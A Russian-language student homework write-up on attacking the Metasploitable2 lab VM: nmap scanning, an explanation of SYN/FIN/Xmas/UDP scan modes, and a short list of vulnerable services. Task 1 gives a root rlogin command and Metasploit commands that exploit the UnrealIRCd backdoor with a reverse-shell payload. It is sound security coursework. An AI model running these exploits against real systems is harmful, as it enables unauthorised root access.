






## Уязвимости и атаки на информационные системы
## Домашнее задание. Горбунов Владимир


### Задание 1

```
Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.  
Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.  
Просканируйте эту виртуальную машину, используя **nmap**.  
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.  
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.  
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.   
Ответьте на следующие вопросы:  
- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
*Приведите ответ в свободной форме.*  
```
- Сетап для тестирования: 
  - Kali linux одним интерфейсом подключена к локальной сети (бридж), вторым к PentestNet сети (172.30.1.0/24)
  - Metasploitable2 подключена к сети PentestNet.  

- Для начала сканируем сеть ARP сканером `netdiscover -i eth1 -r 172.30.1.0/24`

- Узнали адрес metaspoitable2. Сканируем с помощью nmap открытые порты. `nmap -A -T4 -p- 172.30.1.20`
  - -A - расширенное сканирование с подробной информации о сервисе на открытом порту
  - -T4 - скорость сканирования (1-5)
  - -p- - сканируем все возможные 65,535 портов
  - в результате - общая информация об атакуемой системе и открытые порты с сервисами, которые на них висят  
Полный отчет nmap: [nmap_metasploitable2.log](./nmap_metasploitable2.log)
- Практически любой из открытых сервисов в этой сборке даёт возможность так или иначе получить доступ к системе или вывести её из строя. Даже обычный r-service на 513 порту неправильно настроен и даёт возможность подключиться к Metasploitable2 под рутом `rlogin -l root 172.30.1.20` 
- Другие примеры уязвимостей атакуемой системы 
  - FTP vsFTPd 2.3.4 https://www.exploit-db.com/exploits/49757 
  Версия программы vsFTP, выложенная в репозиторий сторонним пользователем и дающая возможность получить доступ к shell под рутом указав имя ":)"
  Рабочий скрипт на питоне и подробнее тут - https://github.com/Hellsender01/vsftpd_2.3.4_Exploit 
  - Apache httpd 2.2.8 https://attackerkb.com/topics/cM3Ia1zzpA/cve-2008-2364 
  возможность провести DoS атаку с загрузкой памяти
  - UnrealIRCd 3.2.8.1 https://www.exploit-db.com/exploits/16922 
  IRC сервер с уязвимостью. В фреймворке msfconsole - 
  > use exploit/unix/irc/unreal_ircd_3281_backdoor  
  > set RHOST 172.30.1.20  
  > set LHOST 172.30.1.21  
  > set payload cmd/unix/reverse  
  > exploit  

### Задание 2

```
Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.  
Запишите сеансы сканирования в Wireshark.  
Ответьте на следующие вопросы:  
- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?  
- Как отвечает сервер?  
*Приведите ответ в свободной форме.*  
```
TCP соединение устанавливается с помощью трехстороннего рукопожатия.  
Инициатор соединения отправляет SYN пакет  
В ответ получает SYN+ACK пакет  
И отправляет ACK пакет  
Соединение считается установленным и начинается передача данных


- Режим SYN `nmap -sS 172.30.1.20`
  

Отправляется SYN пакет.   
В случае, если от хоста приходит ответ SYN+ACK, то есть хост готов установить соединение - порт считается открытым, а само соединение сбрасывается отправляя пакет RST.   
В случае, если от хоста приходит RST - порт закрыт. 
Если ответа нет - filtered.

- Режим FIN `nmap -sF 172.30.1.20`
  

В режиме FIN используется особенность стандарта TCP.   
Если пакет не содержит флагов SYN ACK RST, то закрытый порт вернет ответ RST.    
Если порт открыт, то ответа от исследуемого хоста не приходит.

- Режим Xmas `nmap -sX 172.30.1.20`
  

Аналогично режиму FIN отправляется пакет на завершение соединения. Дополнительно к FIN отправляется флаг PSH (не копить буфер, отправить сразу в приложение) и URG (флаг сигнализирующий о приорите пакета). 

- Режим UDP `nmap -sU 172.30.1.20`
  

В протоколе UDP нет рукопожатия, пакеты идут потоком, не дожидаясь подтверждения получения.  
При UDP сканировании на какие-то общеизвестные порты (53 DNS, 161 SNMP) отправляются пакеты с полезной нагрузкой, чтобы увеличить вероятность отклика, но на большинство просто пустые пакеты. Если от хоста нет ответа, то считается, что порт открыт или ответный пакет потерян (opened | filtered). В случае недоступности порта исследуемый хост отправляет ICMP пакет - host unreachable. Однако часто по умолчанию количество отправляемых пакетов ICMP в секунду ограничено, nmap это определяет и замедляется, чтобы не засорять сеть UDP трафиком. Как написано в man-pages в случае, если на исследуемом хосте установлен лимит в 1 ICMP/сек, сканирование всех портов UDP может занять 18 часов. 


В целом с точки зрения сетевого трафика наименее заметным является режим FIN.  
Однако самым надежным - SYN. UDP - наиболее длительный режим сканирования.  
Также стоит отметить, что  режим SYN используется по умолчанию, когда nmap работает от рута и есть возможность отправлять raw packets.   
В случае запуска без повышенных привелегий nmap использует системные вызовы. И трехстороннее рукопожатие устанавливается полностью.
